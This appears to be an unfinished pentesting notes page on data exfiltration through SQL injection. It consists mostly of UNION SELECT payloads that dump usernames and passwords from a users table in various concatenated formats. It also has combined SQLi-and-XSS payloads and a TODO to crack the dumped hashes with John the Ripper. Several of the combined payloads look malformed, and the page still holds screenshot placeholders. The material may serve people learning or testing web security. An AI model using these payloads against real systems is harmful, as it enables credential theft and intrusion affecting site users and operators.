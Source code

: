 # 02 - Data Exfiltration

## 2.1 - Exploit

```sql
' UNION SELECT USER, password FROM users#
```

`<Insert screenshot>`

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#
```

`<Insert screenshot>`

```sql
' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#
```

`<Insert screenshot>`

```sql
' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

`<Insert screenshot>`

TODO: Use [[Pentesting Phases/Initial Access/Password Cracking/Offline/JTR|John The Ripper (JTR)]] and [[Identify Hash#^f93d17|Name-That-Hash]] to demonstrate cracking weak passwords with a dictionary list after dumping the credentials

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

## References

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)